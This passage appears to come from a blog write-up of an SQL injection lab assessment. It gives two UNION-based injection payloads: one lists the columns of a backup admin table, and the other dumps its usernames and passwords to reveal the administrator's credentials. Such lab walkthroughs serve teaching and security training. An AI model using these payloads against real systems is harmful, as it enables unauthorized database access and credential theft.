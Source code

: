 Just like before, we can now **extract** information about columns stored in this table by injecting the following payload:

{% highlight sql %}

' UNION SELECT 'a', table_schema, table_name, column_name, 'e' FROM information_schema.columns WHERE table_schema='backup' AND table_name='admin_bk';-- -

{% endhighlight %}


There are **two columns**, **username** and **password**.

{:refdef: style="text-align: center;"}
[![Enumerating columns in the second database](/assets/sqlifundamentalsskillsassessment/13_admin_bk.png)](/assets/sqlifundamentalsskillsassessment/13_admin_bk.png){:target="_blank"}
{:refdef}

We can now extract information from that table using the following payload:

{% highlight sql %}

' UNION SELECT 'a', username, password, 'd', 'e' FROM backup.admin_bk;-- -

{% endhighlight %}

As a result we can finally see the **administrator's credentials**.

{:refdef: style="text-align: center;"}
